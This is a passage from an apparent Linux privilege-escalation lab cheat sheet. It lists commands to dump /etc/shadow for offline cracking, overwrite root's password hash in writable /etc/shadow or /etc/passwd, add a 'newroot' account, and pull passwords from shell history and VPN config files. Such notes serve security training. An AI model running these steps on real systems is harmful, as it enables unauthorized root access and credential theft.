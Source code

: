 ````
cat /etc/shadow > shadow.txt
````
- Transfer both back to attack box 
````
unshadow passwd.txt shadow.txt > unshadowed.txt
````
#### Writeable shadow
```
ls -l /etc/shadow
```
- Generate a new password hash
```
mkpasswd -m sha-512 jackiscool
```
- Edit /etc/shadow and replace origional root user's password hash with the one that you just created
- Switch to the root user
```
su root
```
#### Writable passwd
- The /etc/passwd file contained user password hashes, and some versions of Linux still allow password hashes to be stored there
- The /etc/passwd file contains information about user accounts. It is world-readable, but usually only writable by the root user. 
````
ls -l /etc/passwd
````
- Generate a new password hash with a password of your choice:
````
openssl passwd newpasswordhere
````
- Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").
- Switch to the root user, using the new password:
````
su root
````
- Alternatively, copy the root user's row and append it to the bottom of the file, changing the first instance of the word "root" to "newroot" and placing the generated password hash between the first and second colon (replacing the "x").
- Now switch to the newroot user, using the new password:
````
su newroot
````
### Passwords and Keys
#### History Files
- If a user accidentally types their password on the command line instead of into a password prompt, it may get recorded in a history file.
- View the contents of all the hidden history files in the user's home directory:
````
cat ~/.*history | less
````
- Note that the user has tried to connect to a MySQL server at some point, using the "root" username and a password submitted via the command line. 
- Note that there is no space between the -p option and the password!
#### Config Files
- Config files often contain passwords in plaintext or other reversible formats.
- List the contents of the user's home directory:
````
ls /home/user
````
- Note the presence of a myvpn.ovpn config file. View the contents of the file:
````
cat /home/user/myvpn.ovpn
````